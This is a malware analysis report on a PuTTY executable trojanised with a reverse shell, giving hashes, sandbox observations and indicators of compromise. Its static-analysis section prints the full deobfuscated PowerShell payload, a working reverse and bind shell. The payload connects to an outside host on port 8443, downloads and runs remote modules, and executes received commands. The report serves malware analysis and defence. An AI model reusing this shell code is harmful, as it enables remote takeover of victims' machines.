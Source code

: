 ```yaml
---
title: Backdoor.ReverseShell.Putty.exe
description: Analyzing an infected putty executable
authors: konradwylde
tags:
  - malware
  - reversing
  - analysis
date: '2022-12-17'
draft: false
---
```



## Executive Summary
The analyzed sample is a reverse shell embedded inside a fully functional Putty client.

It consist of a single payload executed on initial detonation by a powershell.exe command that tries to connect to bonus2.corporatebonusapplication[.]local on port 8443

Symptoms of infection include DNS query to the same domain and a following TCP connection try.


## Malware Composition

|  File Name     |  SHA256 Hash  |
|----------------|---------------|
|  putty.exe  |  0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83  |


## VT Analysis
[VT Link](https://www.virustotal.com/gui/file/0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83/relations) (Detection score 59/72)  
  
No other significative results to be reported.


## Basic Static Analysis
### FLOSS interesting findings
[![floss-ouput](images/floss.png)](images/floss.png)

### PEStudio findings
* found a suspicious section: `.00cfg`
* found a suspicious entry-point `.text:0x00122000`

Both findings need an advanced analysis.

### IAT interesting findings
* `ShellExecuteA` and some Windows Registry related imports (may be Putty normal functionality related - eg. saving an ssh key)


## Basic Dynamic Analysis
### Initial detonation
* upon detonation a blue Powershell window appears for a few seconds before the standard Putty window.

### Host-based indicators 
* a `Process Create` operation is executed after detonation, which confirms the Powershell command execution we found during the strings analysis.
[![procmon1](images/procmon-1.png)](images/procmon-1.png)

* the `process tree` can also confirm that putty.exe executed Powershell
[![procmon2](images/procmon-2.png)](images/procmon-2.png)
  
* by analysing any TCP operations we can notice that the Powershell command seems to be trying to establish a TCP connection to port `8443`
[![procmon3](images/procmon-3.png)](images/procmon-3.png)

### Network signatures
* found DNS queries to `bonus2.corporatebonusapplication[.]local`
[![dns-queries](images/wireshark-dns.png)](images/wireshark-dns.png)

* by setting up a listener on port `8443` and re-detonating the sample we can get a TCP connection (Wireshark reports a TLS `Client Hello`)
[![netcat](images/netcat-1.png)](images/netcat-1.png)
[![tcp-connect](images/wireshark-tcp.png)](images/wireshark-tcp.png)


## Advanced Static Analysis
* by decoding the base64 string and decompressing it with gzip we finally get the deobfuscated payload
```POWERSHELL
# Powerfun - Written by Ben Turner & Dave Hardy

function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}

powerfun -Command reverse -Sslcon true
```


## Advanced Dynamic Analysis
Not needed.


## Any.run Analysis
* by searching the SHA256SUM on App.any.run we can find some tasks [(Link here)](https://app.any.run/tasks/0ee9dac1-f2e8-406d-a141-3f8e0be6a5af/) that can confirm the Powershell payload and the DNS query. No other findinds are reported. 
[![anyrun1](images/anyrun-1.png)](images/anyrun-1.png)


## Indicators of Compromise (IOCs)
### Host-based Indicators
* Powershell command execution.
* TCP Connection on port `8443`

### Network Indicators
* DNS query: `bonus2.corporatebonusapplication[.]local`
* TCP connection on port `8443`


## Rules & Signatures
`Placeholder`